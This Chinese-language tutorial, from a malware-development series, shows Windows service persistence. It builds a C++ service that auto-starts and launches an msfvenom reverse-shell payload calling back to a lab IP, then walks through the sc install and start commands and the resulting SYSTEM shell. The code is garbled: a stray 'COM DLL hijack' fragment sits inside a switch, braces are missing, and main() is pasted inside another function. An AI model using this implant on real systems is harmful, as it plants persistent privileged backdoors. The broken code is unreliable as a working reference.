\newpage
\subsection{恶意软件开发：持久化（第 4 部分）——Windows 服务（简单的 C++ 示例）}

{width="80%"}

这一节是关于 Windows 恶意软件持久化技术与技巧系列文章的下一部分。

今天我将写关于自我研究另一个持久化技巧的结果：Windows 服务。

Windows 服务对黑客来说之所以重要，有以下原因：

它们天然地在网络上运行——整个 Services API 从创建之初就考虑了远程服务器。

它们在操作系统中可能拥有极高的权限。

管理服务需要高权限，非特权用户通常只能查看设置。

在 Windows 环境中，配置不当的服务可能导致权限提升，或者被用作一种持久化技术。

所以，创建新服务需要管理员凭据，并且不是一种隐蔽的持久化方式。

### 实战示例

我们来考虑实战示例：如何创建并运行一个为我们接收反向 shell 的 Windows 服务。

首先，在我的攻击者机器上通过 msfvenom 创建反向 shell 的 exe 文件：

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

{width="80%"}

{width="80%"}

然后，创建一个在目标机器上运行 `meow.exe` 的服务。

对服务的最低要求如下：

一个主入口点（和任何应用程序一样）

一个服务入口点

一个服务控制处理器

在主入口点中，你迅速调用 `StartServiceCtrlDispatcher`，这样 SCM 就可以调用你的服务入口点（`ServiceMain`）：

```cpp
int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
  {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
  {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;

```

服务主入口点执行以下任务：

初始化你在主入口点中推迟进行的任何必要操作。

注册服务控制处理器（`ControlHandler`），它将处理服务停止、暂停、继续等控制命令。

这些通过 `SERVICE_STATUS` 结构的 `dwControlsAccepted` 字段以位掩码形式注册。

把服务状态设置为 `SERVICE_RUNNING`。

执行初始化过程，例如创建线程/事件/互斥量/IPC 等。

```cpp
void ServiceMain(int argc, char** argv) {
  serviceStatus.dwServiceType  = SERVICE_WIN32;
  serviceStatus.dwCurrentState  = SERVICE_START_PENDING;
  serviceStatus.dwControlsAccepted  = 
  SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
  serviceStatus.dwWin32ExitCode  = 0;
  serviceStatus.dwServiceSpecificExitCode = 0;
  serviceStatus.dwCheckPoint  = 0;
  serviceStatus.dwWaitHint  = 0;

  hStatus = RegisterServiceCtrlHandler("MeowService", 
  (LPHANDLER_FUNCTION)ControlHandler);
  RunMeow();

  serviceStatus.dwCurrentState = SERVICE_RUNNING;
  SetServiceStatus (hStatus, &serviceStatus);

  while (serviceStatus.dwCurrentState == SERVICE_RUNNING) {
  Sleep(SLEEP_TIME);
  }
  return;

```

每个服务都必须有一个处理器来处理来自 SCM 的控制请求：

```cpp
void ControlHandler(DWORD request) {
  switch(request) {
  case SERVICE_CONTROL_STOP:
  serviceStatus.dwWin32ExitCode = 0;
  serviceStatus.dwCurrentState  = SERVICE_STOPPED;
  SetServiceStatus (hStatus, &serviceStatus);
  return;

  case SERVICE_CONTROL_SHUTDOWN:
  serviceStatus.dwWin32ExitCode = 0;
  serviceStatus.dwCurrentState  = SERVICE_STOPPED;
  SetServiceStatus (hStatus, &serviceStatus);
  return;

  default:
  break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;

```

我只实现并支持了 `SERVICE_CONTROL_STOP` 和 `SERVICE_CONTROL_SHUTDOWN` 请求。

另外，还要创建一个带有恶意逻辑的函数：

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: 
  // msfvenom -p windows/x64/shell_reverse_tcp 
  // LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, 
  NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
  {"MeowService", 
  (LPSERVICE_MAIN_FUNCTION) ServiceMain},
  {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;

```

正如我之前所写，只需创建我们的反向 shell 进程（`meow.exe`）：

{width="80%"}

当然，这段代码不是参考实现，它更是一个「粗糙的」概念验证。

### 演示

我们来完整演示一遍。

编译我们的服务：

```bash
x86_64-w64-mingw32-g++ -O2 meowsrv.cpp -o meowsrv.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

我们可以在目标机器的 Windows 10 x64 上通过在命令提示符中运行以下命令来安装服务。

```powershell
sc create MeowService binpath= \
"Z:\2022-05-09-malware-pers-4\meowsrv.exe" \
start= auto
```

{width="80%"}

检查：

```powershell
sc query MeowService
```

{width="80%"}

它的令牌包含 `NT AUTHORITY\SYSTEM` 和 `BUILTIN\Administrators` 的 SID；这些账户可以访问大多数系统对象。

{width="80%"}

这个账户没有密码。

{width="80%"}

根据 MSDN，如果你 在 `CreateService` 或 `ChangeServiceConfig` 函数调用中指定 LocalSystem 账户，你提供的任何密码信息都会被忽略。

然后，通过命令启动服务：

```powershell
sc start MeowService
```

{width="80%"}

而如你所见，我们得到了一个反向 shell！

{width="80%"}

而我们的 MeowService 服务拿到了一个 PID：5668。

{width="80%"}

但以管理员身份运行 Process Hacker 就改变了情况，我们看到我们的 shell 是以 `NT AUTHORITY\SYSTEM` 的身份运行的。

{width="80%"}

我们会在 Network（网络）标签中看到它：

{width="80%"}

于是 MeowService 成功停止。

{width="80%"}

但是，有一个非常重要的注意事项。

你可能会想，为什么我们不直接运行这条命令：

```powershell
sc stop MeowService
```

{width="80%"}

因为 `meow.exe` 实际上并不是一个服务。

```powershell
sc delete MeowService
```

